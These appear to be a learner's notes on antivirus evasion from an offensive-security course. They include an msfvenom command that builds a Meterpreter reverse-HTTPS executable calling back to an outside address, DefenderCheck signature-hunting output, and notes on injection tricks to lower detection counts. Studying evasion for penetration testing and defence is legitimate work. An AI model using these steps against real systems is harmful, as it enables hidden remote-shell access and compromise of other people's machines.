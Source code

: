 # Introduction to Antivirus evasion

We will look at how anti virus detection works

# Antivirus software overview

Antivirus vendors use automated processes and manual 
reverse-engineering efforts to create these signatures, which are stored in massive databases. 
While signature algorithms are often close-held secrets, most rely on MD5 or SHA-1 hashes of 
malicious files or on unique byte sequences discovered in known malicious files. If a scanned file 
matches a known hash, or contains a malicious byte sequence, it is flagged as malicious.

software performs heuristics or behavioral analysis that 
simulates execution of a scanned file. Most implementations execute the scanned file in a 
sandboxed environment, attempting to detect known malicious behavior. This approach relies on 
extremely sophisticated, proprietary code and is significantly more time-consuming and resource intensive than signature-based detection methods. The success rate of this approach varies 
widely from vendor to vendor

# simulating virus environemnt

virus total

antiscan.me

# Locating signatures in the file

For this exercise, we must disable the heuristics-based scanning portion of the antivirus engine. 
In this section, we are going to rely on ClamAV, which is preinstalled on the Windows 10 victim 
machine and has its heuristics engine disabled.

Using Dsplit, Find-AVSignature PowerSHell script

```
└─# msfvenom -p windows/x64/meterpreter/reverse_https -a x64  LHOST=10.10.6.12 LPORT=4443 EXITFUNC=thread -f exe -o /var/www/html/met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 700 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met.exe
                                
```

```
Import Find-AvSignature.ps1
```

Not able to run 

```
VERBOSE: StartByte: 0
VERBOSE: EndByte: 7167
VERBOSE: This script will now write 1 binaries to ".\avtest1".
New-Object : Exception calling ".ctor" with "5" argument(s): "Could not find file 
'C:\Windows\system32\met.exe'."
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:141 char:42
+ ... eadStream = New-Object System.IO.FileStream($Path, [System.IO.FileMod ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectComm 
   and
 
VERBOSE: Byte 0 -> 0
You cannot call a method on a null-valued expression.
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:154 char:9
+         $ReadStream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
 
New-Object : Exception calling ".ctor" with "5" argument(s): "Could not find a part of the path 
'C:\Windows\system32\avtest1\met_0.bin'."
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:158 char:47
+ ... iteStream = New-Object System.IO.FileStream($outfile, [System.IO.File ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectComm 
   and
```

Trying DefenderCheck -> https://github.com/matterpreter/DefenderCheck.git

```sh
C:\Users\misthios\codeplay\DefenderCheck\DefenderCheck\DefenderCheck\bin\x64\Release>DefenderCheck.exe met.exe
[-] C:\Temp doesn't exist. Creating it...
Target file size: 7168 bytes
Analyzing...

[!] Identified end of bad bytes at offset 0x44A in the original file
File matched signature: "Trojan:Win32/Meterpreter.A!cl"

00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000B0   00 00 00 00 00 00 48 83  EC 28 49 C7 C1 40 00 00   ······H?ì(IÇA@··
000000C0   00 49 C7 C0 00 30 00 00  48 C7 C2 00 10 00 00 48   ·IÇA·0··HÇA····H
000000D0   33 C9 E8 27 10 00 00 48  C7 C1 00 10 00 00 48 BE   3Éè'···HÇA····H_
000000E0   41 10 00 40 01 00 00 00  48 8B F8 F3 A4 FF D0 48   A··@····H?oó☼ÿDH
000000F0   33 C9 E8 01 10 00 00 50  41 59 4C 4F 41 44 3A 00   3Éè····PAYLOAD:·
```



and ThreatCheck -> git clone https://github.com/rasta-mouse/ThreatCheck.git





### 6.3.1.1 Exercise
1. Generate a 32-bit Meterpreter executable and use Find-AVSignature to bypass any ClamAV 
signature detections. Does the modified executable return a shell?



### creating code to reverse array

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/

1. is the shellcode getting detected
WE TRIED A NEW CODE - might be getting detected need to check with calc opening shellcode.

2. can we compile it as a 32 bit program
TRIED - better performance with antivirus.

3. can we run 32 bit shellcode on 64 bit program?
Not happening

4. create a 32 bit program to inject into a 64 bit process.

